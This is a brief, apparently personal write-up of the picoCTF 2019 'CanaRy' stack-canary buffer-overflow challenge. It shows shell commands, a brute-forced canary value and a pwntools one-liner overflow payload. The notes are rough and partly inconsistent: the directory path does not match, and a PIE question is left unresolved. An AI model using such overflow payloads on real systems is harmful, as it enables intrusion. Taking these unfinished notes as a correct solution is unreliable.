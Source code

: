 # AUR

CanaRy - Points: 300 - (Solves: 54)Binary Exploitation - Unsolved
Solve
Hints
This time we added a canary to detect buffer overflows. Can you still find a way to retreive the flag from this program located in /problems/canary_3_257a2a2061c96a7fb8326dbbc04d0328. Source.
Maybe there's a smart way to brute-force the canary?
Walkthrough: This video should show you how to do it. www.youtube.com/watch?v=4Eir5gsSIM8

***

2kofawsome@pico-2019-shell1:~$ cd /problems/canary_3_257a2a2061c96a7fb8326dbbc04d0328

2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ objdump -t vuln | grep flag
000007ed g     F .text  00000090              flag
but it is PIE?



Canary is 57Gh

Final payload:

python -c 'from pwn import * ;print "a"*32 + "57Gh" + p32(0x000007ed)*38'

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA57GhAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK57GhAAAABBBBCCCCDDDDAAAA




Flag:

picoCTF{}


